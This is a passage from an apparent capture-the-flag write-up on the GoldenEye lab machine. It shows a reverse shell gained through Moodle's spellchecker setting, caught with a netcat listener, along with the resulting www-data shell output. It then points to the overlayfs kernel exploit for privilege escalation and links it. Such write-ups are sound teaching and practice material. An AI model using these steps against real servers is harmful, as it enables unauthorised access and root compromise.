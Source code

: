 And finally, in the path:

**Site administration -> Courses -> Add/edit courses**

Then, we click on **Add a new course**, before to execute the reverse shell we need set up a netcat listener and then click on **Toggle spellchecker**.

![](/assets/images/goldeneye/screenshot-18.png)

We got a shell, with the permissions that the moodle platform is running.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.156] 48348
bash: cannot set terminal process group (1141): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Googling I found that this version of the kernel is vulnerable to the overlayfs exploit.

```console
www-data@ubuntu:/dev/shm$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
### Kernel Exploit

The issue lies in the ovl_setattr function in fs/overlayfs/inode.c in the Linux kernel through 4.3.3 attempts to merge distinct setattr operations, which allows local users to bypass intended access restrictions and modify the attributes of arbitrary overlay files via a crafted application.

I downloaded the exploit to the attacking machine, in the exploit I modified gcc to cc since the gcc compiler doesn't exist on the target machine, I compiled it and started the apache service, you can download the exploit [here](https://www.exploit-db.com/exploits/37292).

